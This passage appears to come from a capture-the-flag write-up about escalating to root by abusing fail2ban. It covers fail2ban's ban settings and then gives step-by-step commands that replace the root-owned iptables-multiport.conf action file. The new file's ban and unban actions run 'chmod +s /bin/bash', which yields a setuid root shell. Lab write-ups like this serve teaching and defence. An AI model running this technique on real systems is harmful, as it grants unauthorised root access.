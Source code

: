 Now we need to understand what fail2ban is and how it works. fail2ban is a great IDPS tool, not only it can detect attacks but also block malicious IP addresses by using Linux iptables. Although fail2ban can be used for services like HTTP, SMTP, IMAP, etc. most sys-admins use it to protect the SSH service. fail2ban daemon reads the log files and if there is a malicious pattern detected (e.g multiple failed login requests) it executes a command for blocking the IP for a certain period of time or maybe forever.


In the file /etc/fail2ban/jail.conf, we can spot some customizations such as ban time and maxretry:

```bash
cat /etc/fail2ban/jail.conf
```

And we see that bantime is limited to 10 seconds and maximum of retries to 5:

```
# "bantime" is the number of seconds that a host is banned.
bantime  = 10s

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10s

# "maxretry" is the number of failures before a host gets banned.
maxretry = 5
```

This means that if we retry ssh connection six times (so we exceed the maxretry parameter), the file  /etc/fail2ban/action.d/iptables-multiport.conf will be executed as root, and as a consequence, our host will be banned. Now, as part of the security group michael does have rwx permissions on the parent folder /etc/fail2ban/action.d, but not on the file /etc/fail2ban/action.d/iptables-multiport.conf:

```bash
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
```

Result:

```
-rw-r--r-- 1 root root 1420 Oct 20 12:48 iptables-multiport.conf
```

We need then, to be able to edit that file to include our malicious code. As the service fail2ban is restarted every minute or so, you need to execute the following commands quickly. They will allow you to overwrite the file /etc/fail2ban/action.d/iptables-multiport.conf:

```bash
# create a copy of the file to have rwx permissions
mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf.bak
# overwrite the existing file with your copy
cp /etc/fail2ban/action.d/iptables-multiport.conf.bak /etc/fail2ban/action.d/iptables-multiport.conf
# edit the file and add your lines
nano /etc/fail2ban/action.d/iptables-multiport.conf
# In the file, comment the line with the  actionban definition and
# add:
# actionban = chmod +s /bin/bash
# Also in the file, comment the line with the  actionunban definition and
# add:
# actionunban = chmod +s /bin/bash
# CTRL-X -   Yes and ENTER to save changes.
```

